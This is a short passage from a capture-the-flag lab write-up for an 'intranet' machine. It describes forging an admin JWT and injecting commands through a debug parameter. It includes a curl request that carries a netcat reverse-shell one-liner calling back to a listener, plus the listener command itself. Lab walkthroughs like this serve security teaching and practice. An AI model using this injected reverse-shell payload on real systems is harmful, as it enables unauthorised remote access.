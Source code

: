 <br />

**Update the jwt and get the forth flag from the admin dashboard**



![](/assets/img/thm/intranet/17.png)

<br /><br />

---

### User 1 flag

with the os.system() call. This gets its parameters from a form. But we are not dependent on this form and are able to send a post request with a value for debug to create a reverse shell. 

<br />

**Start the netcat listner. and ssing `curl`, providing the previously created admin jwt, and the reverseshell in the debug parameter we could have a shell** 

get the user 1 flag

```bash
root@ip-10-10-138-166:~# curl 'http://intranet.thm:8080/admin' -X POST -H 'Cookie: session=eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYWRtaW4ifQ.ZoWCUw.zvZqlIEOMuipYViwerq334HwfFY' --data-raw 'debug=rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>%261|nc 10.10.138.166 4242 >/tmp/f'


root@ip-10-10-138-166:~# nc -nvlp 4242
```

<br />

![](/assets/img/thm/intranet/18.png)
